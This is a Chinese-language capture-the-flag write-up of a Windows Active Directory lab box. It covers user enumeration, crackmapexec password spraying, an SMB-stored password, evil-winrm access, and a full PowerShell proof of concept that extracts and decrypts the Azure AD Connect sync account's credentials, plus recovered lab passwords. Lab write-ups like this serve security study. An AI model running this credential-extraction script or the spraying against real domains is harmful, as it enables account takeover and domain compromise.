

# 信息收集

## nmap


## rpcclient


将用户筛选出来之后使用kerbrute枚举用户是否存在


## creakmapexec&&smb

可能会有密码和用户名相同，或者密码是别人的用户名，使用crackmapexec尝试进行爆破

```
crackmapexec smb 10.10.10.172 -u users -p users
```


使用爆破到的账号密码连接smb


在smb中找到一个xml文件，其中有password，由于该密码实在mhope目录下，上面枚举出来的用户也有mhope，猜测这就是mhope用户的密码，可以成功命令执行，5985端口开启，可以使用evil-winrm远程连接到windows


```
mhope:4n0therD4y@n0th3r$
```


## 提权

[Azure AD Connect for 红队人员 - XPN 信息安全博客 --- Azure AD Connect for Red Teamers - XPN InfoSec Blog](./https://blog.xpnsec.com/azuread-connect-for-redteam/)需要用到该漏洞，原理就是有个dll文件负责对秘钥管理和数据加密，从数据库查询到加密秘钥之后使用该文件进行解密

poc代码

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```



```
administrator:d0m@in4dminyeah!
```

